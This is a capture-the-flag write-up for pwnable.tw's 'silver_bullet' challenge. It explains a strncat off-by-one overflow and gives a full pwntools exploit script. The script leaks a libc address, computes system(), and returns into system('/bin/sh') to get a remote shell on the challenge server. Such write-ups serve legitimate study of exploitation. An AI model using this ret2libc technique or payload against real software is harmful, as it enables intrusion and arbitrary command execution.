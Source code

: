 # 📌 silver_bullet - pwnable.tw

## 🔹 Vulnerability Analysis
### 📌 **Vulnerable Function: `power_up`**
The vulnerability resides in the **`power_up` function**.

---

### 🛠️ **Breakdown of the Issue**
- The program allows creating **only one bullet** with a **maximum size of `0x30`** bytes.
- The **initial power** is determined by the length of the **first provided description**.
- When **powering up**, the new description is **concatenated** with the existing one.
- The problem arises from **`strncat`**, which expects a **destination buffer** of **size `n+1`**, since it writes `n` bytes and **appends a null terminator (`\x00`)**.
- If we concatenate **exactly `0x30` bytes**, the **31st (`0x31`) byte gets null-terminated**.
- The program then **updates the power level** based on the length of **only the new input**, instead of the full concatenated buffer.

---

### 💥 **Impact: Buffer Overflow**
This logic flaw **allows a buffer overflow**:
- **We can overwrite the return address**, which is **8 bytes past the power variable**.
- Since **the power variable is incorrectly updated**, we **can exceed `0x30` bytes** and write beyond the buffer.

---

### 🏴 **Exploitation Plan**
1. **Leak a libc address**  
   - Overwrite the return address to leak an address from the **libc**.
2. **Calculate `system` address**  
   - Using the leaked libc address, compute the base address and derive `system()`.
3. **Overwrite return address with `system()`**  
   - Redirect execution to `system("/bin/sh")`, gaining a shell.


## 🔹 Exploit Code
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./silver_bullet_patched")  
p = remote("chall.pwnable.tw", 10103)  


elf = ELF("./libc_32.so.6")


def create_bullet(p, desc):
    p.sendlineafter("Your choice :", "1")
    p.sendafter("bullet :", desc)
    p.recvuntil("Your power is : ")
    return int(p.recvline().strip().decode())

def power_up(p, desc):
    p.sendlineafter("Your choice :", "2")
    p.sendafter("bullet :", desc)
    p.recvuntil("new power is : ")
    return int(p.recvline().strip().decode())

def beat(p):
    p.sendlineafter("Your choice :", "3")
    p.recvuntil("HP : ")
    p.recvline()


power = create_bullet(p, 'A' * 47)
print(f"Initial power: {power}")


power = power_up(p, 'B' * (48 - power))

# overwrite ret addr
payload = b"\xff\xff\xff"
payload += b"a" * 4  # Padding
payload += p32(0x8048733, "little")  # return to beat function so it can leak libc addr
payload += p32(0x08048954, "little") # saved return ptr to main
payload += p32(0x804afd4, "little")  # param1
payload += p32(0x804b01c, "little")  # param2

power = power_up(p, payload)

# Leak libc addr
beat(p)
p.recvuntil("+ NAME : ")
leak = p.recvline().strip()
libc_leak = int.from_bytes(leak[4:8], "little")

print(f"Leaked libc address: {hex(libc_leak)}")

# system() addr
libc_offset = 0x175ca7  # Offset from leak to system
system_addr = libc_leak - libc_offset
libc_base = system_addr - elf.symbols["system"]

print(f"system() address: {hex(system_addr)}")
print(f"Libc base: {hex(libc_base)}")

power = create_bullet(p, 'A' * 47)
power_up(p, 'B' * (48 - power))

payload = b"\xff\xff\xff"
payload += b"a" * 4  # Padding
payload += p32(system_addr, "little")
payload += p32(system_addr, "little")
payload += p32(libc_base + 0x158e8b, "little")  # "/bin/sh" address

power_up(p, payload)


beat(p)


p.interactive()
